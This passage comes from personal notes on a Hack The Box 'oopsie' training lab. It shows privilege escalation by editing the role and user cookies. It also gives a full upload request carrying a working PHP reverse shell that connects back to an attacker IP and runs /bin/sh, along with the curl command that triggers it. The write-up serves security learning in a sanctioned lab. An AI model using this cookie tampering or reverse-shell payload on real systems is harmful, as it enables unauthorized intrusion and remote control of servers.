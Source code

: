 	Accept-Encoding: gzip, deflate
	Accept-Language: en-US,en;q=0.9
	Cookie: role=admin; user=86575
	Connection: close
	```
	![[Pasted image 20210817101402.png]]
	- `super admin` user is indeed a super admin
	- user cookie can be manipulated to be any user's access id to inheret that users permissions
7. Successfully tested file upload of test file
	```
	tyler@ubuntu:~/Documents/learn/htb/htb-starting-point/oopsie$ curl http://10.10.10.28/uploads/twof_test.txt
	This is a test
	```
	![[Pasted image 20210817102402.png]]
8. Uploaded and connected to PHP reverse shell
	```
	Request:
		POST /cdn-cgi/login/admin.php?content=uploads&action=upload HTTP/1.1
		Host: 10.10.10.28
		Content-Length: 423
		Cache-Control: max-age=0
		Upgrade-Insecure-Requests: 1
		Origin: http://10.10.10.28
		Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRkSwAhbdiPCzpeNX
		User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
		Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
		Referer: http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
		Accept-Encoding: gzip, deflate
		Accept-Language: en-US,en;q=0.9
		Cookie: role=admin; user=86575
		Connection: close

		------WebKitFormBoundaryRkSwAhbdiPCzpeNX
		Content-Disposition: form-data; name="name"


		------WebKitFormBoundaryRkSwAhbdiPCzpeNX
		Content-Disposition: form-data; name="fileToUpload"; filename="twof_reverse_shell.php"
		Content-Type: application/x-php

		<?php
			$sock=fsockopen("10.10.15.54",3602);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
		?>

		------WebKitFormBoundaryRkSwAhbdiPCzpeNX--
	
	Trigger:
		tyler@ubuntu:~/Documents/learn/htb/htb-starting-point/oopsie/scripts$ curl http://10.10.10.28/uploads/twof_reverse_shell.php
	
